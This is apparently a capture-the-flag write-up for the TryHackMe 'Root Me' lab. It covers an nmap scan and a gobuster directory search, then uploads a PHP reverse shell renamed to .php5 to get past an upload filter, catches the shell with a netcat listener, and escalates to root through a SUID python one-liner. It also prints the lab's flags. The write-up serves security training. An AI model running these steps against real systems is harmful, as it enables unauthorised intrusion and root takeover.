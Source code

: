 # Root Me
--------------------------------------------------------------------

**TOOLS USED**: nmap, gobuster, netcat

**nmap**: network exploration tool and security / port scanner<br>

```
nmap [Scan Type...] [Options] {target specification}
```

Scan Types:<br>
-Ss [DEFAULT] TCP SYN Scan (Doesn't open full TCP connection)<br>
-St TCP Scan (Opens full TCP connection)<br>
-Su UDP Scan<br>

**gobuster**: tool to brute force URIs (dirs, files, dns subdomains)

```
gobuster [command]
```

**nc**: networking utility for reading and writing to network connections using TCP/IP

```
nc [-options] hostname port[s] [ports] ...
nc -l -p port [-options] [hostname] [port]
```

--------------------------------------------------------------------
## GIVEN INFO

**IP Address**: 10.10.142.72<br>
**Internal Virtual IP Address**: 10.6.40.234

--------------------------------------------------------------------
## PROCEDURE

### 1. FIND EXPOSED SERVICES

**TOOLS**: nmap

```
nmap -sV -oN nmap.txt 10.10.142.72
```

![nmap](./imgs/nmap.png)

**PORTS OPEN** =<br>
22 (TCP) ssh, <br>
80 (TCP) http <br>

**APACHE VERSION** = 2.4.29

--------------------------------------------------------------------

### 2. FIND HIDDEN DIR ON WEB SERVER

**TOOLS**: gobuster

```
gobuster dir -u http://10.10.142.72 -w /usr/share/wordlists/dirb/common.txt
```
dir: directory brute force<br>
-u: website<br>
-w: wordlist

![gobuster](./imgs/gobuster.png)

--------------------------------------------------------------------

### 3. GET A SHELL

**TOOLS**: netcat

Get shell code from pentestmonkey. Change file ext to php5 so we can bypass file upload restriction
```
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
mv php-reverse-shell.php payload.php5
```

Change IP address to your IP address and upload file to http://10.10.142.72/panel

```
nc -nlvp 4444
```

-n: number only<br>
-l: listen mode<br>
-v: verbose<br>
-p: port<br>

Go to http://10.10.142.72/uploads/ and click on payload.php5

![shell](./imgs/shell.png)

```
find / -name user.txt
```

![flag](./imgs/flag.png)

USER.TXT CONTENT: THM{y0u_g0t_a_sh3ll}

--------------------------------------------------------------------

### 4. PRIVILEGE ESCALATION

```
find / -user root -perm /4000 2>/dev/null
```
Find root user with SUID permission (4000)<br>
2>/dev/null gets rid of all the "Permission Denied" hits

FILE: /usr/bin/python

![SUID](./imgs/SUID.png)

All the other files listed are always accessible to all users so not exploitable

Steps for privilege escalation with python SUID:
https://gtfobins.github.io/gtfobins/python/#suid

```
sudo install -m =xs $(which python) .

./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

```
find / -name root.txt
```

ROOT.TXT CONTENT: THM{pr1v1l3g3_3sc4l4t10n}
